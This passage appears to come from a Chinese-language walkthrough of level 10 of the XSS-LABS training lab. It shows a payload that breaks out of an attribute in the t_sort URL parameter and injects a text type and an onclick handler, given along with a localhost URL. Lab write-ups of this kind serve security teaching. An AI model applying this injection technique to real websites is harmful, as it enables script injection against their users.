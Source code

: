 ![image-20220928184340516](XSS-LABS.assets/image-20220928184340516.png)

- 通过url构造payload使后端返回可显示可点击的input

```shell
# payload
?t_sort=屠龙宝刀点击就送！"type="text"onclick="alert()

# url
http://localhost:1996/level10.php?t_sort=屠龙宝刀点击就送！"type="text"onclick="alert()
```

![image-20220928184734093](XSS-LABS.assets/image-20220928184734093.png)
